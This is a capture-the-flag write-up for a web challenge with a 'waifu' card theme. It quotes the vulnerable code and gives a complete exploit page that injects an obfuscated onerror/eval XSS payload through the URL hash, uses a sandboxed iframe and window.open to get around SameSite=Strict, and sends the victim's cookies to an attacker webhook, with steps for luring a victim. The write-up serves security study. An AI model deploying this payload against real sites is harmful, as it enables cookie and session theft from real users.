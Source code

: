 # Write Up

Observation on the application:
- Flag is stored in admin cookie.
- Flag cookie is set to SameSite=Strict that means we can't access it from another domain, even from an iframe.
- The application is vulnerable to XSS in this code:



    ...snip...
    function createWaifuCardHTML(file, buttonText, buttonAction) {
        const sanitizedFile = DOMPurify.sanitize(file);
        const imgHTML = `<img src="${sanitizedFile}" class="card-img-top">`;
        const buttonHTML = `<button class="btn btn-outline-light" onclick="${buttonAction}('${sanitizedFile}')">${buttonText}</button>`;
        return `<div class="card text-center waifu-item">${imgHTML}<div class="btn-container">${buttonHTML}</div></div>`;
    }
    ...snip...

But we can't directly exploit it because there's some restriction here:

    function displayClaimedWaifus(paths) {
        if (REGEX_SAVE_PROPS.test(initialHash)) {
            throwAlert("Invalid characters detected in the hash. Please try again.");
        }
...snip...
    }

    
...snip...

    ...snip...
    function throwAlert(message) {
        document.location.hash = "";
        alert(message);
        document.location = document.referrer;
    }
    ...snip...

Here the step to get xss and steal the flag

    Create a page that contains the following code:

<body></body>
<script>
    const TARGET = "http://proxy"
    const i1 = document.createElement('iframe')
    function waifuDomainScript() {
        /**
            I use window.open to open a new window, this will make the browser create new window context that
            have cookies with SameSite=Strict.
        */
        const w = window.open("/")
        w.onload = () => {
            window.location = webhook + "?" + w.document.cookie
        }
    }

    let payload = btoa(`webhook='${location.origin}';(${waifuDomainScript})()`)
    payload = btoa(`" onerror="eval(atob('${payload}'))" x="`)
    i1.src = TARGET + '#' + payload
    /**
        Create a sandboxed iframe to prevent alert from being triggered.

        We only need to allow scripts, same origin, and popups, you can check the doc here:
        https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox

        Because the iframe have recursion prevention system that stated here:
        https://www.w3.org/TR/WD-frames-970331#Infinite%20Recursion
        the frame will eventually stop the recursion redirect through the document.referrer and execute our payload.

        There is other way to bypass this, but this is the shortest way to do it.
        As example you can use csp to prevent the frame from redirecting to document.referrer.
    */
    i1.sandbox = 'allow-scripts allow-same-origin allow-popups'
    document.body.appendChild(i1)
</script>

    Serve the page using a web server, make sure the server is accessible from the internet.
    Send the link to the victim.
    Wait for the victim to open the link.
    The flag will be sent to the webhook.

Read more

    https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value
    https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox
    https://www.w3.org/TR/WD-frames-970331#Infinite%20Recursion


